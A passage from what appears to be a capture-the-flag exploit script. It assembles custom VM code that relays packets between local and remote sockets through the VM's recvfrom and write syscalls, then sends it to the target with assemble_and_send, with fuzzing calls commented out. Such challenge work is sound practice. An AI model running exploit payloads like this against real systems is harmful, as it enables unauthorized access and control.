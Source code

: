 ```python

// Forwarding loop
// Local -> remote
0x133769 sys_recvfrom recvfrom_local_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall5 shit shit                 // Tracepoint
add output zero write_remote_size
add output zero write_packet_size
0x133769 sys_write write_remote_args output     // Write to remote
0x133769 sys_write write_packet_args output     // Write to screen
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall6 shit shit                 // Tracepoint

// Remote -> local
0x133769 sys_recvfrom recvfrom_remote_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall0 shit shit                 // Tracepoint
add output zero write_local_size
add output zero write_packet_size
0x133769 sys_write write_local_args output      // Write to local
0x133769 sys_write write_packet_args output     // Write to screen  
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall2 shit shit                 // Tracepoint

sub 0 loop_size 0

0x133769 sys_write write_output_args output
0x133769 sys_write write_packet_args output
"""

def main():
    #fuzz_opcodes()
    #fuzz_syscall_numbers()
    #exit(0)

    d = assemble_and_send(exploit, close=False, cont=True)

if __name__=="__main__":
    main()

